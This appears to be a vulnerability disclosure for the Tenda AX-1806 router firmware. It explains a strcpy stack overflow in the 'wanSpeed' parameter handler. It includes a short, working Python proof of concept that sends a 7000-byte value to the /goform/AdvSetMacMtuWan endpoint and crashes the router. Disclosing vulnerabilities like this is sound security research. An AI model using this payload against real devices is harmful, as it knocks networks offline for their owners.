



# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan


## Vulnerability cause

In the function sub_65B5C, the wanSpeed value is obtained from user-controlled input via v2 = (const char *)sub_295C8(a1, "wanSpeed", "0") and is then copied into the local buffer v11 using strcpy(v11, v2). The buffer v11 is a fixed-size stack buffer of 32 bytes (char v11[32]), while strcpy does not perform any bounds checking on the source string. Because the "wanSpeed" parameter can be supplied by the user without any enforced maximum length, an attacker can provide an excessively long value to cause strcpy to write past the end of v11, resulting in a stack-based buffer overflow that corrupts adjacent stack memory and can lead to a process crash, causing a Denial of Service condition.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/AdvSetMacMtuWan"

wanSpeed = "A"*7000
data = {
"wanSpeed": wanSpeed
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>